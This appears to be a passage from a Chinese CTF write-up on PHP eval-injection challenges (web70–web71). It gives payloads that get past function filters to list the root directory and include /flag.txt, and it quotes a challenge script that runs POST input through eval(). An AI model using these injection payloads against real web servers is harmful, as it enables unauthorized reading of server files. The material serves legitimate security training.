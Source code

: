 ![](https://img-blog.csdnimg.cn/20210213222748764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
显示根目录下的flag.txt
```
1.过滤了print_r()函数，可以使用var_dump()函数代替

2.过滤了var_dump()函数，可以使用var_export()函数

3.过滤了highlight_file()函数，可以尝试文件包含include

4.除了scandir还有 (web73)

c=
$a=glob("/*");
foreach($a as $value){
echo $value."   ";
}

c=
$a=new DirectoryIterator('glob:///*');
foreach($a as $f){
echo($f->__toString()." ");
}

5.include可以包含文件，如txt文本格式，并把包含的文件当作php代码解析执行
```
![](https://img-blog.csdnimg.cn/20210213223151958.png#pic_center)
payload:
```
c=var_export(scandir('/'));
c=include('/flag.txt');
```
---
## web71

```bash
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
你要上天吗？
```
要在eval 处结束 否则会被替换为 ？
